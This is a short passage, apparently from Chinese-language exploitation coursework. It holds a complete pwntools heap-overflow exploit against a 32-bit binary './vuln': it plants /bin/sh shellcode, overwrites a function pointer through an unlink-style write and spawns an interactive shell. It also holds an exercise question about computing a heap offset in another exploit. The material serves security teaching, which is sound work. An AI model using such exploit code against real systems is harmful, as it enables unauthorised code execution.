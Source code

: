 ```PY
from pwn import *  


context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32

func_point = 0x08049778

shellcode_addr = 0x804a008 + 0x10

shellcode = b"\xeb\x0assppppffff\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\
xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"


def make_input():
    p = p32(0xdefaced) * 4
    p += shellcode
    p += ((680-4*4)-(4*4+len(shellcode)))*b'B'
    p += p32(0xffffffff)
    p += p32(0xfffffffc)
    p += p32(func_point - 12)
    p += p32(shellcode_addr)
    return p


m_input = make_input()
with open('input_str_py', 'wb') as f:
    f.write(m_input)


start = process(argv=['./vuln', m_input])

start.interactive()

```

# 2-2

> 请解释exploit脚本中第96行到第100行代码的含义，其中pos变量的值是怎么计算出来的，目的是什么？：

``` PY
 96 heapBase = leakAddr - 8
 97 pos = 0x804b120 - (heapBase+0x48*3+0x48*4+16)
 98 payload1 = ''
 99 print '=== 5 new note, pos:', pos
100 new_note(str(pos), payload1)

```
